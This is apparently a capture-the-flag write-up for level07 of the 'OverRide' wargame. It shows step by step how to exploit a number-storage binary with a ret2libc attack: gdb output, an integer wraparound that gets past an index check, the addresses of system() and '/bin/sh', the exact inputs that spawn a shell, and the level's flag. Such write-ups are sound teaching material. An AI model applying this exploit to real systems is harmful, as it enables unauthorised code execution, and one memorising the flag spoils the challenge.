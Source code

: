 We want to perform a ret2libc attack.

We have a way to store data at an index. We can use this function to change the address stored in the eip.  
```C
(gdb) disas main
Dump of assembler code for function main:
   0x08048723 <+0>:	push   %ebp
   0x08048724 <+1>:	mov    %esp,%ebp
   0x08048726 <+3>:	push   %edi
   0x08048727 <+4>:	push   %esi
   0x08048728 <+5>:	push   %ebx
   0x08048729 <+6>:	and    $0xfffffff0,%esp
   0x0804872c <+9>:	sub    $0x1d0,%esp
   0x08048732 <+15>:	mov    0xc(%ebp),%eax
   0x08048735 <+18>:	mov    %eax,0x1c(%esp)
   0x08048739 <+22>:	mov    0x10(%ebp),%eax
   0x0804873c <+25>:	mov    %eax,0x18(%esp)
   0x08048740 <+29>:	mov    %gs:0x14,%eax
   0x08048746 <+35>:	mov    %eax,0x1cc(%esp)
   0x0804874d <+42>:	xor    %eax,%eax
   0x080488e1 <+446>:	jne    0x80488f8 <main+469>
   0x080488e3 <+448>:	lea    0x24(%esp),%eax
   0x080488e7 <+452>:	mov    %eax,(%esp)
   0x080488ea <+455>:	call   0x8048630 <store_number> // WE SET A BREAKPOINT HERE : b *0x080488ea
   0x080488ef <+460>:	mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:	jmp    0x8048965 <main+578>
   0x080489ea <+711>:	lea    -0xc(%ebp),%esp
   0x080489ed <+714>:	pop    %ebx
   0x080489ee <+715>:	pop    %esi
   0x080489ef <+716>:	pop    %edi
   0x080489f0 <+717>:	pop    %ebp
   0x080489f1 <+718>:	ret    
End of assembler dump.
(gdb) b *0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) x/wx $esp
0xffffd530:	0xffffd554
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x80488ea in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd70c, ebp at 0xffffd718, esi at 0xffffd710, edi at 0xffffd714, eip at 0xffffd71c
(gdb) 
```

At the start of the array, we have address `0xffffd554` (4294956372 in decimal)
The eip is at `0xffffd71c`(4294956828 in decimal)

If we substract both value 4294956828 - 4294956372 = 456.
Since the array is in unsigned int which is 4 bytes long, we have to divide 456 by 4 = 114.
So whatever we input in index 114, will overwrite the EIP.

Finding elements to spawn a shell :

Addr of system():
```C
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

Addr of "/bin/sh":
```C
(gdb) info proc mappings
process 1810
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found. 
```

When we want to write to index 114, we get blocked by this code :
```C
    if ((index % 3 == 0) || ((value >> 24) == 0xb7)) {
        puts(" *** ERROR! ***");
        puts("   This index is reserved for wil!");
        puts(" *** ERROR! ***");
        ret = 1;
```

If we overflow the UINT_MAX : 4294967295 + 456
then in int it will be divided by 4 : 1073741938

We have all our elements to change eip address :

```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: exit
 Failed to do exit command
Input command: quit
$ whoami
level08
```

flag = `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`